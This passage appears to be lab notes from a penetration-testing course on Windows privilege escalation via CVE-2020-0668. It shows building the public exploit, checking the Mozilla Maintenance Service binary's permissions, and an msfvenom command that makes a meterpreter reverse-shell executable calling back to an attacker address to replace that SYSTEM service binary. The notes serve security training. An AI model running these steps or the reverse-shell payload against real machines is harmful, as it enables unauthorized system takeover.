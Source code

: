 {% embed url="https://github.com/RedCursorSecurityConsulting/CVE-2020-0668" %}
Build this solution
{% endembed %}

Following are the files that is created after build

```shell-session
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users.

```
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

**Checking Permissions on Binary**

```cmd-session
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
 
Successfully processed 1 files; Failed processing 0 files
```

**Generating Malicious Binary**

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

Make 2 copies of the binary, because running teh exploit currupts the first binary so we need the second to replace it after a successful upload

```
C:\Users\htb-student\Desktop\maintenanceservice.exe
C:\Users\htb-student\Desktop\maintenanceservice2.exe
```
